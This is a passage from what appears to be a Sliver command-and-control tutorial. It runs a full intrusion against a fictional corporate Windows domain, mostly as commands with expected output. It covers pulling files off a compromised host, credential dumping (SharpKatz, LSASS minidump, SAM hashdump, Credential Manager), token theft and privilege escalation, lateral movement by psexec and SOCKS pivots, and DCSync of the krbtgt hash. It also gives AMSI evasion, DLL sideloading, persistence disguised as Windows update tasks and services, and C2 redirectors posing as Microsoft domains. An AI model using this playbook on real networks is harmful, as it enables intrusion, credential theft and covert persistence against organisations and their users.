 tcp        192.168.1.50:49881     192.168.1.10:88          TIME_WAIT     0/[System]
```

```bash
# ============================================================
# Environment variables
# ============================================================
[server] sliver (TARGET-WS01) > getenv
```

**Expected Output:**

```text
[*] Tasked beacon TARGET-WS01 (8c2f4e1a)
[+] TARGET-WS01 returned:

 Variable                 Value
 ========                 =====
 COMPUTERNAME             WS01
 LOGONSERVER              \\DC01
 USERDOMAIN               CORP
 USERNAME                 j.smith
 USERPROFILE              C:\Users\j.smith
 SystemRoot               C:\Windows
 PROCESSOR_ARCHITECTURE   AMD64
 NUMBER_OF_PROCESSORS     4
 OS                       Windows_NT
 ...
```

---

## File Operations

```bash
# ============================================================
# List files
# ============================================================
[server] sliver (TARGET-WS01) > ls C:\\Users\\j.smith\\Desktop
```

**Expected Output:**

```text
[*] Tasked beacon TARGET-WS01 (8c2f4e1a)
[+] TARGET-WS01 returned:

C:\Users\j.smith\Desktop\ (5 items, 342.5 KiB)
============================================
drw-rw-rw-  2024-01-15 09:00:00  .
drw-rw-rw-  2024-01-15 09:00:00  ..
-rw-rw-rw-  2024-01-20 14:30:00  passwords.txt (1.2 KiB)
-rw-rw-rw-  2024-02-05 11:15:00  project_notes.docx (340.0 KiB)
-rw-rw-rw-  2024-02-01 08:45:00  vpn_config.ovpn (1.3 KiB)
```

```bash
# ============================================================
# Download a file
# ============================================================
[server] sliver (TARGET-WS01) > download C:\\Users\\j.smith\\Desktop\\passwords.txt
```

**Expected Output:**

```text
[*] Tasked beacon TARGET-WS01 (8c2f4e1a)
[+] TARGET-WS01 returned:
[*] Wrote 1.2 KiB to /root/.sliver/loot/passwords.txt
```

```bash
# ============================================================
# Upload a file
# ============================================================
[server] sliver (TARGET-WS01) > upload /tmp/tools/SharpHound.exe C:\\Users\\j.smith\\AppData\\Local\\Temp\\update.exe
```

**Expected Output:**

```text
[*] Tasked beacon TARGET-WS01 (8c2f4e1a)
[+] TARGET-WS01 returned:
[*] Wrote 1.1 MiB to C:\Users\j.smith\AppData\Local\Temp\update.exe
```

```bash
# ============================================================
# Create directory
# ============================================================
[server] sliver (TARGET-WS01) > mkdir C:\\Users\\j.smith\\AppData\\Local\\Temp\\working

# Remove file
[server] sliver (TARGET-WS01) > rm C:\\Users\\j.smith\\Desktop\\passwords.txt

# Change directory
[server] sliver (TARGET-WS01) > cd C:\\Users\\j.smith\\Documents

# Print working directory
[server] sliver (TARGET-WS01) > pwd
```

---

## Privilege Escalation

```bash
# ============================================================
# Check current privileges
# ============================================================
[server] sliver (TARGET-WS01) > getprivs
```

**Expected Output:**

```text
[*] Tasked beacon TARGET-WS01 (8c2f4e1a)
[+] TARGET-WS01 returned:

 Privilege                          Description                              Enabled
 =========                          ===========                              =======
 SeShutdownPrivilege                Shut down the system                     false
 SeChangeNotifyPrivilege            Bypass traverse checking                 true
 SeUndockPrivilege                  Remove computer from docking station     false
 SeIncreaseWorkingSetPrivilege      Increase a process working set           false
 SeTimeZonePrivilege                Change the time zone                     false
```

```bash
# ============================================================
# Attempt UAC bypass with Getsystem
# ============================================================
[server] sliver (TARGET-WS01) > getsystem
```

**Expected Output (if successful):**

```text
[*] Tasked beacon TARGET-WS01 (8c2f4e1a)
[+] TARGET-WS01 returned:
[+] Successfully obtained SYSTEM privileges
[*] New session: 9a8b7c6d via AWFUL_GARDEN (192.168.1.50:49890)

[server] sliver (TARGET-WS01) >
```

```bash
# ============================================================
# Execute assembly for privilege escalation (e.g., SharpUp)
# ============================================================
[server] sliver (TARGET-WS01) > execute-assembly /tmp/tools/SharpUp.exe audit
```

**Expected Output:**

```text
[*] Tasked beacon TARGET-WS01 (8c2f4e1a)
[+] TARGET-WS01 returned:

=== SharpUp: Running Privilege Escalation Checks ===

=== Modifiable Services ===

  Name             : VulnService
  DisplayName      : Vulnerable Service
  Description      : A vulnerable service
  State            : Running
  StartMode        : Auto
  PathName         : "C:\Program Files\VulnApp\service.exe"
  
=== Modifiable Service Binaries ===

  Name             : BackupSvc
  DisplayName      : Backup Service
  Description      : Backup service
  State            : Running
  PathName         : C:\Backup\svc.exe
  Modifiable File  : C:\Backup\svc.exe

=== AlwaysInstallElevated ===

  AlwaysInstallElevated set in HKLM!
  AlwaysInstallElevated set in HKCU!

[*] Completed Checks in 1.2 seconds
```

```bash
# ============================================================
# Impersonate another user's token
# ============================================================
[server] sliver (TARGET-WS01) > impersonate j.smith
```

**Expected Output:**

```text
[*] Tasked beacon TARGET-WS01 (8c2f4e1a)
[+] TARGET-WS01 returned:
[+] Successfully impersonated CORP\j.smith
```

```bash
# ============================================================
# Steal token from another process
# ============================================================
[server] sliver (TARGET-WS01) > steal-token 692
# (PID 692 = lsass.exe running as SYSTEM)
```

**Expected Output:**

```text
[*] Tasked beacon TARGET-WS01 (8c2f4e1a)
[+] TARGET-WS01 returned:
[+] Successfully stole token from PID 692 (NT AUTHORITY\SYSTEM)
```

---

## Credential Harvesting

```bash
# ============================================================
# Dump credentials with Mimikatz (inline)
# ============================================================
[server] sliver (TARGET-WS01) > execute-assembly /tmp/tools/SharpKatz.exe --Command logonpasswords
```

**Expected Output:**

```text
[*] Tasked beacon TARGET-WS01 (8c2f4e1a)
[+] TARGET-WS01 returned:

  [*] LogonPasswords

  Authentication Id : 0;999
  Session           : UndefinedLogonType
  User Name         : WS01$
  Domain            : CORP
  Logon Server      : DC01
  SID               : S-1-5-18
    msv :
     [00000003] Primary
     * Username : WS01$
     * Domain   : CORP
     * NTLM     : 1a2b3c4d5e6f7890abcdef1234567890

  Authentication Id : 0;12345
  Session           : Interactive
  User Name         : j.smith
  Domain            : CORP
  Logon Server      : DC01
  SID               : S-1-5-21-...-1105
    msv :
     [00000003] Primary
     * Username : j.smith
     * Domain   : CORP
     * NTLM     : 64f12cddaa88057e06a81b54e73b949b
     * SHA1     : a1b2c3d4e5f6a1b2c3d4e5f6a1b2c3d4e5f6a1b2
    tspkg :
     * Username : j.smith
     * Domain   : CORP
     * Password : Password123!
```

```bash
# ============================================================
# Hashdump (SAM database — local accounts)
# ============================================================
[server] sliver (TARGET-WS01) > hashdump
```

**Expected Output:**

```text
[*] Tasked beacon TARGET-WS01 (8c2f4e1a)
[+] TARGET-WS01 returned:

Administrator:500:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
localadmin:1001:aad3b435b51404eeaad3b435b51404ee:7c89f8e24ac7d4eea5d7eb7a5e5c7bba:::
```

---

## Lateral Movement

### Process Injection

```bash
# ============================================================
# Migrate to another process
# ============================================================
[server] sliver (TARGET-WS01) > migrate 3456
# (PID 3456 = explorer.exe — more stable)
```

**Expected Output:**

```text
[*] Tasked beacon TARGET-WS01 (8c2f4e1a)
[+] TARGET-WS01 returned:
[+] Successfully migrated to PID 3456 (explorer.exe)
[*] New session: b1c2d3e4 via TARGET-WS01 (192.168.1.50:49895)
```

### PSExec / Remote Execution

```bash
# ============================================================
# PSExec to another machine (requires admin creds/token)
# ============================================================
[server] sliver (TARGET-WS01) > psexec --target DC01.corp.local \
  --profile beacon-profile
```

**Expected Output:**

```text
[*] Tasked beacon TARGET-WS01 (8c2f4e1a)
[+] TARGET-WS01 returned:
[*] Successfully started service on DC01.corp.local
[*] Beacon c3d4e5f6 GENTLE_HORSE - 192.168.1.10:49900 (DC01) - windows/amd64

[server] sliver (TARGET-WS01) >
```

### Pivoting



```bash
# ============================================================
# Step 1: Generate pivot implant (named pipe — Windows only)
# ============================================================
[server] sliver > generate beacon --named-pipe '//./pipe/svcctl' \
  --os windows --arch amd64 \
  --format exe \
  --seconds 30 --jitter 5 \
  --save /tmp/implants/pivot_beacon.exe
```

**Expected Output:**

```text
[*] Generating new windows/amd64 beacon implant binary (30s)
[*] Symbol obfuscation is enabled
[*] Build completed in 1m20s
[*] Implant saved to /tmp/implants/pivot_beacon.exe (12.3 MB)
```

```bash
# ============================================================
# Step 2: Start named pipe listener on existing beacon
# ============================================================
[server] sliver (TARGET-WS01) > named-pipe --pipe-name svcctl
```

**Expected Output:**

```text
[*] Tasked beacon TARGET-WS01 (8c2f4e1a)
[+] TARGET-WS01 returned:
[*] Listening on \\.\pipe\svcctl
[*] Named pipe pivot started (Job ID: 7)
```

```bash
# ============================================================
# Step 3: Upload and execute pivot implant on target
# ============================================================
[server] sliver (TARGET-WS01) > upload /tmp/implants/pivot_beacon.exe \\\\DC01.corp.local\\C$\\Windows\\Temp\\svc.exe

[server] sliver (TARGET-WS01) > shell
PS C:\> Invoke-Command -ComputerName DC01 -ScriptBlock { Start-Process C:\Windows\Temp\svc.exe }
```

```bash
# ============================================================
# Step 4: Pivot implant connects through WS01
# ============================================================
```

**Expected Output:**

```text
[*] Beacon d4e5f6a7 COLD_RIVER - 192.168.1.10 via pivot (WS01) - windows/amd64

[server] sliver >
```

```bash
# ============================================================
# TCP Pivot (works for Linux targets)
# ============================================================

# Start TCP pivot on existing beacon
[server] sliver (TARGET-WS01) > tcp-pivot --lport 9001

# Generate implant with TCP pivot
[server] sliver > generate beacon --tcp-pivot 192.168.1.50:9001 \
  --os linux --arch amd64 \
  --format exe \
  --save /tmp/implants/pivot_linux
```

### SOCKS Proxy

```bash
# ============================================================
# Start SOCKS5 proxy through implant
# ============================================================
[server] sliver (TARGET-WS01) > socks5 start
```

**Expected Output:**

```text
[*] Tasked beacon TARGET-WS01 (8c2f4e1a)
[+] TARGET-WS01 returned:
[*] Started SOCKS5 proxy on 127.0.0.1:1080 (Job ID: 8)
```

```bash
# Use the SOCKS proxy with proxychains (from attacker machine)
echo "socks5 127.0.0.1 1080" >> /etc/proxychains4.conf

# Now route tools through the pivot
proxychains netexec smb 192.168.1.10 -u j.smith -p 'Password123!'
proxychains impacket-secretsdump corp.local/s.admin:'Admin!@#456'@192.168.1.10
proxychains nmap -sT -Pn -p 445,3389,5985 192.168.1.0/24
```

**Expected Output (proxychains nmap):**

```text
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.1.10:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.1.10:3389 ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.1.10:5985 ...  OK

Nmap scan report for 192.168.1.10
PORT     STATE SERVICE
445/tcp  open  microsoft-ds
3389/tcp open  ms-wts
5985/tcp open  wsman

Nmap scan report for 192.168.1.20
PORT     STATE SERVICE
445/tcp  open  microsoft-ds
3389/tcp open  ms-wts

Nmap scan report for 192.168.1.30
PORT     STATE  SERVICE
445/tcp  closed microsoft-ds
```

```bash
# Stop SOCKS proxy
[server] sliver (TARGET-WS01) > socks5 stop --id 8
```

---

## Executing Assemblies, BOFs & Extensions

### Execute .NET Assembly (In-Memory)

```bash
# ============================================================
# Run SharpHound for BloodHound collection
# ============================================================
[server] sliver (TARGET-WS01) > execute-assembly /tmp/tools/SharpHound.exe -c All --outputdirectory C:\\Users\\j.smith\\AppData\\Local\\Temp
```

**Expected Output:**

```text
[*] Tasked beacon TARGET-WS01 (8c2f4e1a)
[+] TARGET-WS01 returned:

2024-02-10T12:30:00.0000000+00:00|INFORMATION|This version of SharpHound is compatible with the 4.3.1 Release of BloodHound
2024-02-10T12:30:01.0000000+00:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2024-02-10T12:30:02.0000000+00:00|INFORMATION|Initializing SharpHound at 12:30 PM on 2/10/2024
2024-02-10T12:30:05.0000000+00:00|INFORMATION|[CommonLib LDAPUtils]Found usable Domain Controller for corp.local : DC01.corp.local
2024-02-10T12:30:30.0000000+00:00|INFORMATION|Status: 125 objects finished (+125 125)/s -- Using 85 MB RAM
2024-02-10T12:30:45.0000000+00:00|INFORMATION|Enumeration finished in 00:00:43.1234567
2024-02-10T12:30:46.0000000+00:00|INFORMATION|SharpHound Enumeration Completed at 12:30 PM on 2/10/2024! Happy Graphing!

Compressing data to C:\Users\j.smith\AppData\Local\Temp\20240210123046_BloodHound.zip
```

```bash
# ============================================================
# Run Seatbelt for host enumeration
# ============================================================
[server] sliver (TARGET-WS01) > execute-assembly /tmp/tools/Seatbelt.exe -group=all -full
```

**Expected Output:**

```text
[*] Tasked beacon TARGET-WS01 (8c2f4e1a)
[+] TARGET-WS01 returned:

                        %&&@@@&&
                        &&&&&&&%%%,                       #702 Seatbelt
                        &%&   %&%%
                         &%%    %%&
                         &%%    %&
...

====== AMSIProviders ======

  GUID                           : {2781761E-28E0-4109-99FE-B9D127C57AFE}
  ProviderPath                   : "C:\ProgramData\Microsoft\Windows Defender\..."

====== AntiVirus ======

  Engine                         : Windows Defender
  ProductEXE                     : windowsdefender://
  State                          : On

====== Certificates ======

  StoreLocation      : CurrentUser
  Issuer             : CN=corp-CA01-CA, DC=corp, DC=local

...
```

### Beacon Object Files (BOFs)

BOFs are small compiled C programs that execute within the beacon process, avoiding new process creation.

```bash
# ============================================================
# Install BOF extensions
# ============================================================
[server] sliver > armory install sa-whoami
[server] sliver > armory install sa-ldapsearch
[server] sliver > armory install sa-netstat
[server] sliver > armory install nanodump
[server] sliver > armory install credman
[server] sliver > armory install adcs-enum
```

**Expected Output (for each):**

```text
[*] Installing extension 'sa-whoami' (v1.0.0) ... done!
```

```bash
# List installed extensions
[server] sliver > armory
```

**Expected Output:**

```text
 Name             Version   Type        Description
 ====             =======   ====        ===========
 sa-whoami        1.0.0     BOF         Whoami BOF
 sa-ldapsearch    1.0.0     BOF         LDAP search BOF
 sa-netstat       1.0.0     BOF         Netstat BOF
 nanodump         1.0.0     BOF         LSASS dump via MiniDumpWriteDump
 credman          1.0.0     BOF         Credential Manager dump
 adcs-enum        1.0.0     BOF         AD CS enumeration
```

```bash
# ============================================================
# Execute BOFs
# ============================================================

# Whoami BOF
[server] sliver (TARGET-WS01) > sa-whoami
```

**Expected Output:**

```text
[*] Tasked beacon TARGET-WS01 (8c2f4e1a)
[+] TARGET-WS01 returned:

UserName           : CORP\j.smith
TOKEN USER         : CORP\j.smith (S-1-5-21-...-1105)
TOKEN OWNER        : CORP\j.smith
TOKEN GROUPS:
  CORP\Domain Users          (S-1-5-21-...-513)     Mandatory, Enabled
  Everyone                   (S-1-1-0)               Mandatory, Enabled
  BUILTIN\Users              (S-1-5-32-545)          Mandatory, Enabled
  NT AUTHORITY\INTERACTIVE   (S-1-5-4)               Mandatory, Enabled
  NT AUTHORITY\Authenticated Users (S-1-5-11)        Mandatory, Enabled
TOKEN PRIVILEGES:
  SeShutdownPrivilege                                Disabled
  SeChangeNotifyPrivilege                            Enabled
  SeIncreaseWorkingSetPrivilege                      Disabled
```

```bash
# LDAP search BOF — Find Domain Admins
[server] sliver (TARGET-WS01) > sa-ldapsearch "(&(objectClass=user)(memberOf=CN=Domain Admins,CN=Users,DC=corp,DC=local))" sAMAccountName
```

**Expected Output:**

```text
[*] Tasked beacon TARGET-WS01 (8c2f4e1a)
[+] TARGET-WS01 returned:

sAMAccountName: Administrator
sAMAccountName: s.admin

[*] 2 results returned
```

```bash
# LSASS dump with Nanodump (stealthy MiniDump)
[server] sliver (TARGET-WS01) > nanodump --write C:\\Users\\j.smith\\AppData\\Local\\Temp\\debug.dmp
```

**Expected Output:**

```text
[*] Tasked beacon TARGET-WS01 (8c2f4e1a)
[+] TARGET-WS01 returned:

[+] LSASS PID: 692
[+] MiniDump written to C:\Users\j.smith\AppData\Local\Temp\debug.dmp (42.3 MB)
[+] Signature: MDMP (valid MiniDump)
```

```bash
# Credential Manager dump
[server] sliver (TARGET-WS01) > credman
```

**Expected Output:**

```text
[*] Tasked beacon TARGET-WS01 (8c2f4e1a)
[+] TARGET-WS01 returned:

Target Name       : Domain:interactive=CORP\j.smith
Type              : Domain Password
Credential        : Password123!
Last Written      : 2024-02-01 08:30:00

Target Name       : TERMSRV/DC01.corp.local
Type              : Domain Password
Credential        : Admin!@#456
Last Written      : 2024-01-15 14:22:00
```

### Armory — Full Extension Management

```bash
# ============================================================
# Browse available extensions
# ============================================================
[server] sliver > armory search
```

**Expected Output:**

```text
 Name                  Version   Type        Description
 ====                  =======   ====        ===========
 sa-whoami             1.0.0     BOF         Extended whoami
 sa-ldapsearch         1.0.0     BOF         LDAP search queries
 sa-netstat            1.0.0     BOF         Network connections
 nanodump              1.0.0     BOF         Stealthy LSASS dump
 credman               1.0.0     BOF         Credential manager
 adcs-enum             1.0.0     BOF         AD CS enumeration
 coff-loader           1.0.0     Extension   Load and execute COFFs
 sharp-hound-4         4.3.0     .NET        BloodHound collector
 rubeus                2.3.0     .NET        Kerberos abuse tool
 certify               1.1.0     .NET        AD CS enumeration
 seatbelt              1.2.0     .NET        Host survey tool
 sharp-up              1.1.0     .NET        Privilege escalation checks
 sharp-dpapi           1.0.0     .NET        DPAPI credential recovery
 sharp-chrome          1.0.0     .NET        Chrome credential extraction
 ...
```

```bash
# Install all recommended extensions
[server] sliver > armory install sharp-hound-4
[server] sliver > armory install rubeus
[server] sliver > armory install certify
[server] sliver > armory install seatbelt
```

---

## Evasion Techniques

### Built-in Evasion Features



### AMSI & ETW Patching

```bash
# ============================================================
# Execute-assembly already patches AMSI before loading .NET
# But you can also manually configure it
# ============================================================

# Check current AMSI status
[server] sliver (TARGET-WS01) > execute-assembly /tmp/tools/SharpKatz.exe --Command logonpasswords
# If AMSI blocks it, you'll see an error

# Sliver automatically patches AMSI for execute-assembly
# This happens transparently in the background
```

### Process Injection Techniques

```bash
# ============================================================
# Migrate to a different process (spawns new thread)
# ============================================================
[server] sliver (TARGET-WS01) > migrate 3456
```

```bash
# ============================================================
# Spawn a new sacrificial process and inject
# ============================================================
[server] sliver (TARGET-WS01) > spawndll /tmp/implants/beacon.dll C:\\Windows\\System32\\notepad.exe
```

```bash
# ============================================================
# Side-load a DLL into an existing process
# ============================================================
[server] sliver (TARGET-WS01) > sideload /tmp/implants/beacon.dll --process notepad.exe --entry-point RunMalware
```

**Expected Output:**

```text
[*] Tasked beacon TARGET-WS01 (8c2f4e1a)
[+] TARGET-WS01 returned:
[*] Successfully sideloaded DLL into PID 5678 (notepad.exe)
```

### HTTP C2 Profile Customization

```bash
# ============================================================
# Customize HTTP traffic to look like legitimate traffic
# ============================================================

# Create HTTP C2 profile JSON
cat > /tmp/c2-profile.json << 'EOF'
{
    "implant_config": {
        "user_agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36",
        "url_parameters": [
            {"name": "q", "value": "search"},
            {"name": "lang", "value": "en"}
        ],
        "headers": [
            {"name": "Accept", "value": "text/html,application/xhtml+xml"},
            {"name": "Accept-Language", "value": "en-US,en;q=0.9"}
        ],
        "max_files": 2,
        "min_files": 1,
        "max_paths": 3,
        "min_paths": 1,
        "stager_file_extension": ".woff",
        "poll_file_extension": ".js",
        "start_session_file_extension": ".php"
    },
    "server_config": {
        "random_version_headers": false,
        "headers": [
            {"name": "Server", "value": "Apache/2.4.58"},
            {"name": "X-Powered-By", "value": "PHP/8.2.0"},
            {"name": "Cache-Control", "value": "no-cache"}
        ]
    }
}
EOF

# Import the profile
[server] sliver > http --lhost 10.10.10.100 --lport 443 --website cdn-assets
```

### Malleable HTTP Traffic

```bash
# Start HTTPS listener with custom domain
[server] sliver > https --lhost 10.10.10.100 --lport 443 \
  --domain cdn-static.microsoft-update.com \
  --cert /tmp/certs/fullchain.pem \
  --key /tmp/certs/privkey.pem \
  --lets-encrypt
```

**Expected Output:**

```text
[*] Starting HTTPS listener ...
[*] Using Let's Encrypt certificate for cdn-static.microsoft-update.com
[*] Successfully started job #9 (HTTPS 10.10.10.100:443)
```

---

## Persistence Mechanisms

### Windows Persistence

```bash
# ============================================================
# Registry Run Key
# ============================================================
[server] sliver (TARGET-WS01) > shell
PS C:\> reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "WindowsUpdate" /t REG_SZ /d "C:\Users\j.smith\AppData\Local\Temp\svchost.exe" /f
```

**Expected Output:**

```text
The operation completed successfully.
```

```bash
# ============================================================
# Scheduled Task
# ============================================================
[server] sliver (TARGET-WS01) > shell
PS C:\> schtasks /create /tn "MicrosoftEdgeUpdate" /tr "C:\Users\j.smith\AppData\Local\Temp\svchost.exe" /sc onlogon /ru "CORP\j.smith" /f
```

**Expected Output:**

```text
SUCCESS: The scheduled task "MicrosoftEdgeUpdate" has successfully been created.
```

```bash
# ============================================================
# Windows Service (requires admin)
# ============================================================
[server] sliver (TARGET-WS01) > shell
PS C:\> sc.exe create "WindowsTelemetry" binPath= "C:\Windows\Temp\svc.exe" start= auto DisplayName= "Windows Telemetry Service"
PS C:\> sc.exe start WindowsTelemetry
```

**Expected Output:**

```text
[SC] CreateService SUCCESS

SERVICE_NAME: WindowsTelemetry
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
        WIN32_EXIT_CODE    : 0  (0x0)
```

```bash
# ============================================================
# WMI Event Subscription (fileless)
# ============================================================
[server] sliver (TARGET-WS01) > execute-assembly /tmp/tools/SharpStay.exe action=WMIEvent eventname=WindowsUpdate command="C:\Users\j.smith\AppData\Local\Temp\svchost.exe" trigger=Startup
```

**Expected Output:**

```text
[*] Tasked beacon TARGET-WS01 (8c2f4e1a)
[+] TARGET-WS01 returned:
[+] WMI Event Subscription created:
    EventFilter: WindowsUpdate
    CommandLineTemplate: C:\Users\j.smith\AppData\Local\Temp\svchost.exe
    Trigger: __InstanceCreationEvent on Win32_LogonSession
```

### Linux Persistence

```bash
# ============================================================
# Cron job
# ============================================================
[server] sliver (ELEGANT_FALCON) > shell
$ (crontab -l 2>/dev/null; echo "*/5 * * * * /tmp/.cache/updater >/dev/null 2>&1") | crontab -
```

```bash
# ============================================================
# Systemd service
# ============================================================
[server] sliver (ELEGANT_FALCON) > shell
$ cat > /etc/systemd/system/system-monitor.service << 'EOF'
[Unit]
Description=System Performance Monitor
After=network.target

[Service]
Type=simple
ExecStart=/opt/.system/monitor
Restart=always
RestartSec=60

[Install]
WantedBy=multi-user.target
EOF
$ systemctl daemon-reload
$ systemctl enable system-monitor
$ systemctl start system-monitor
```

```bash
# ============================================================
# SSH authorized_keys
# ============================================================
[server] sliver (ELEGANT_FALCON) > shell
$ mkdir -p /root/.ssh
$ echo "ssh-rsa AAAA...your_public_key... operator@attack" >> /root/.ssh/authorized_keys
$ chmod 600 /root/.ssh/authorized_keys
```

---

## Complete Attack Scenario — Full Kill Chain



### Phase 1–3: Initial Access & C2

```bash
# Step 1: Set up listeners
[server] sliver > https --lhost 10.10.10.100 --lport 443 --domain cdn-update.corp-services.com
[server] sliver > mtls --lhost 10.10.10.100 --lport 8888

# Step 2: Generate beacon
[server] sliver > generate beacon --http cdn-update.corp-services.com \
  --os windows --arch amd64 --format shared \
  --seconds 30 --jitter 5 --evasion \
  --save /tmp/implants/update.dll \
  --skip-symbols --run-at-load

# Step 3: Create delivery package
# (Separate tooling for ISO/LNK creation)
# Beacon arrives via HTTPS and checks in
```

### Phase 4: Enumeration

```bash
# Step 4: Interact with beacon
[server] sliver > use AWFUL_GARDEN

# Step 5: Situational awareness
[server] sliver (AWFUL_GARDEN) > info
[server] sliver (AWFUL_GARDEN) > whoami
[server] sliver (AWFUL_GARDEN) > ps
[server] sliver (AWFUL_GARDEN) > netstat

# Step 6: AD Enumeration
[server] sliver (AWFUL_GARDEN) > execute-assembly /tmp/tools/SharpHound.exe -c All --outputdirectory C:\\Users\\j.smith\\AppData\\Local\\Temp
[server] sliver (AWFUL_GARDEN) > download C:\\Users\\j.smith\\AppData\\Local\\Temp\\*_BloodHound.zip

# Step 7: Check for privilege escalation paths
[server] sliver (AWFUL_GARDEN) > execute-assembly /tmp/tools/SharpUp.exe audit
[server] sliver (AWFUL_GARDEN) > execute-assembly /tmp/tools/Seatbelt.exe -group=all
```

### Phase 5: Privilege Escalation

```bash
# Step 8: Escalate to SYSTEM
[server] sliver (AWFUL_GARDEN) > getsystem

# Step 9: Dump credentials
[server] sliver (AWFUL_GARDEN) > hashdump
[server] sliver (AWFUL_GARDEN) > execute-assembly /tmp/tools/SharpKatz.exe --Command logonpasswords

# Found: s.admin NTLM hash = 2b576acbe6bcfda7294d6bd18041b8fe
```

### Phase 6: Lateral Movement

```bash
# Step 10: Move to Domain Controller
[server] sliver (AWFUL_GARDEN) > psexec --target DC01.corp.local \
  --profile beacon-profile

# Or use the SOCKS proxy
[server] sliver (AWFUL_GARDEN) > socks5 start
# Then from attacker machine:
proxychains impacket-psexec -hashes :2b576acbe6bcfda7294d6bd18041b8fe s.admin@192.168.1.10
```

### Phase 7: Domain Dominance

```bash
# Step 11: DCSync
[server] sliver (DC01-BEACON) > execute-assembly /tmp/tools/SharpKatz.exe --Command dcsync --User corp\\krbtgt --Domain corp.local
```

**Expected Output:**

```text
[*] Tasked beacon DC01-BEACON (c3d4e5f6)
[+] DC01-BEACON returned:

[DC] 'corp.local' will be the domain
[DC] 'DC01.corp.local' will be the DC server
[DC] 'corp\krbtgt' will be the user account

Object RDN           : krbtgt
SAM Username          : krbtgt
User Principal Name   : krbtgt@corp.local

Hash NTLM: 9d765b482771505cbe97411065964d5f

  Object Security ID   : S-1-5-21-1234567890-1234567890-1234567890-502
  Object Relative ID   : 502

Credentials:
  aes256_hmac       : a1b2c3d4e5f6a1b2c3d4e5f6a1b2c3d4e5f6a1b2c3d4e5f6a1b2c3d4e5f6a1b2
  aes128_hmac       : 1234567890abcdef1234567890abcdef
  des_cbc_md5       : abcdef1234567890
```

---

## Operational Security (OPSEC) Considerations

### OPSEC Checklist



### Redirector Setup

```bash
# ============================================================
# Simple HTTPS redirector using socat (on VPS)
# ============================================================
# On redirector01 (45.33.22.11):
sudo socat TCP4-LISTEN:443,fork TCP4:10.10.10.100:443

# ============================================================
# Nginx reverse proxy redirector (more realistic)
# ============================================================
cat > /etc/nginx/sites-available/c2-redirect << 'EOF'
server {
    listen 443 ssl;
    server_name cdn-update.corp-services.com;

    ssl_certificate /etc/letsencrypt/live/cdn-update.corp-services.com/fullchain.pem;
    ssl_certificate_key /etc/letsencrypt/live/cdn-update.corp-services.com/privkey.pem;

    # Only forward specific URI patterns to C2
    location ~ ^/(api|static|assets|content)/ {
        proxy_pass https://10.10.10.100:443;
        proxy_ssl_verify off;
        proxy_set_header Host $host;
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
    }

    # Everything else returns a legitimate-looking page
    location / {
        root /var/www/html;
        index index.html;
    }
}
EOF

sudo ln -s /etc/nginx/sites-available/c2-redirect /etc/nginx/sites-enabled/
sudo nginx -t && sudo systemctl reload nginx
```

---

## Troubleshooting

### Common Issues and Solutions

| Problem | Solution |
|---------|----------|
| Beacon not connecting | Check firewall rules, verify listener is running (`jobs`), check DNS resolution |
| `execute-assembly` fails | Ensure target has .NET Framework 4.x, try patching AMSI first |
| Implant crashes on execution | Check AV/EDR, try different process to inject into, regenerate with `--evasion` |
| SOCKS proxy slow | Increase beacon interval for better throughput, use mTLS instead of HTTP |
| Large file upload fails | Use `upload` with smaller chunks, check disk space on target |
| Named pipe pivot fails | Verify SMB connectivity, check pipe name conflicts, ensure admin rights |
| `psexec` fails | Verify admin credentials, check if target allows remote service creation |
| Beacon dies after hours | AV/EDR killed it, set up persistence, use process migration |

### Useful Debug Commands

```bash
# Check server logs
[server] sliver > loot            # View collected loot
[server] sliver > hosts            # View all known hosts
[server] sliver > creds            # View collected credentials
[server] sliver > beacons prune    # Remove dead beacons
[server] sliver > monitor start    # Start monitoring for new beacons
```

---

## Command Quick Reference

```bash
# ═══════════════════════════════════════════════════
# SERVER MANAGEMENT
# ═══════════════════════════════════════════════════
new-operator --name NAME --lhost IP      # Create operator config
jobs                                      # List listeners
jobs --kill ID                            # Kill listener

# ═══════════════════════════════════════════════════
# LISTENERS
# ═══════════════════════════════════════════════════
mtls --lhost IP --lport PORT              # mTLS listener
https --lhost IP --lport 443              # HTTPS listener
http --lhost IP --lport 80                # HTTP listener
dns --domains DOMAIN --lport 53           # DNS listener
wg --lport PORT                           # WireGuard listener

# ═══════════════════════════════════════════════════
# IMPLANT GENERATION
# ═══════════════════════════════════════════════════
generate beacon --mtls IP:PORT --os OS --arch ARCH --format FMT --save PATH
generate --mtls IP:PORT --os OS --arch ARCH --format FMT --save PATH
implants                                  # List all implants
profiles new beacon ...                   # Create reusable profile

# ═══════════════════════════════════════════════════
# IMPLANT MANAGEMENT
# ═══════════════════════════════════════════════════
beacons                                   # List beacons
sessions                                  # List sessions
use ID                                    # Interact with implant
background                                # Background current implant
interactive                               # Upgrade beacon to session
rename --name NAME --beacon ID            # Rename implant
reconfig --beacon-interval Xs --jitter Ys # Change timing

# ═══════════════════════════════════════════════════
# SITUATIONAL AWARENESS
# ═══════════════════════════════════════════════════
info                                      # System info
whoami                                    # Current user
ps                                        # Process list
netstat                                   # Network connections
getuid                                    # User ID
getprivs                                  # Current privileges
getenv                                    # Environment variables
screenshot                                # Take screenshot
ifconfig                                  # Network interfaces

# ═══════════════════════════════════════════════════
# FILE OPERATIONS
# ═══════════════════════════════════════════════════
ls PATH                                   # List files
cd PATH                                   # Change directory
pwd                                       # Current directory
download PATH                             # Download file
upload LOCAL REMOTE                       # Upload file
mkdir PATH                                # Create directory
rm PATH                                   # Delete file/dir
cat PATH                                  # Read file contents

# ═══════════════════════════════════════════════════
# EXECUTION
# ═══════════════════════════════════════════════════
shell                                     # Interactive shell
execute -o COMMAND                        # Execute command
execute-assembly PATH ARGS                # Run .NET assembly
sideload PATH                             # Load DLL
